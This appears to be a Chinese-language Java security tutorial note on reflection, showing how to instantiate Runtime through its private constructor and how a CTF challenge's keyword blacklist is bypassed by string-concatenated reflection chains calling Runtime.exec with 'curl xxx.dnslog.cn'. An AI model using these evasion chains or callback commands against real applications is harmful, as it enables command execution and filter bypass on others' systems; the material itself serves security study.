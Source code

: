 
### 反射私有构造方法

- 以`java.lang.Runtime`类为例，前文说到这个类的构造方法是私有的。这里可以直接调用`getDeclaredConstructor()`来获取这个私有的构造方法来实例化对象，从而执行命令
   - 需要注意的是，获取私有方法后需要用`setAccessible()`修改其作用域，否则仍然不能调用。

```java
package reflection;

import java.lang.reflect.Constructor;

public class TestDeclared {
    public static void main(String[] args) throws Exception {
        Class clazz = Class.forName("java.lang.Runtime");
        Constructor cs = clazz.getDeclaredConstructor();
        cs.setAccessible(true);

        clazz.getMethod("exec", String.class).invoke(
            cs.newInstance(), 
            "open /System/Applications/Calculator.app");
    }
}

```


## 实例-沙盒绕过
> 在安全研究中，我们使⽤反射的⼀⼤⽬的，就是绕过某些沙盒。

⽐如上下⽂中如果只有`Integer`类型的数字，如何获取到可以执⾏命令的`Runtime`类呢，伪代码：

```java
 1.getClass().forName("java.lang.Runtime")
 
```
> Code-Breaking 2018中某道题的第三方Writup：[http://rui0.cn/archives/1015](http://rui0.cn/archives/1015)

在JAVA中可以通过下面代码来执行命令，但在题目中使用了黑名单

```java
Runtime.getRuntime().exec("curl xxx.dnslog.cn")

```
使用反射来构造一条调用链，这样就可以在关键字处使用字符串拼接来达到绕过黑名单的效果

```java
String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("exec",String.class).invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime")), "curl xxx.dnslog.cn);

```
整理一下比较容易理解：

```java
String.class.getClass()            // 获取 Class 对象
.forName("java.lang.Runtime")      // 获取 Runtime 对象
.getMethod("exec", String.class)   // 获取 exec 方法
.invoke(                           // 反射调用 exec 方法
    String.class.getClass()        // 同上,获取并调用 getRuntime 方法
    .forName("java.lang.Runtime")
    .getMethod("getRuntime")
    .invoke(                       // 同上,获取 Runtime 对象
        String.class.getClass()
    .forName("java.lang.Runtime")
    ), 
  "curl xxx.dnslog.cn"             // exec 方法参数
);
```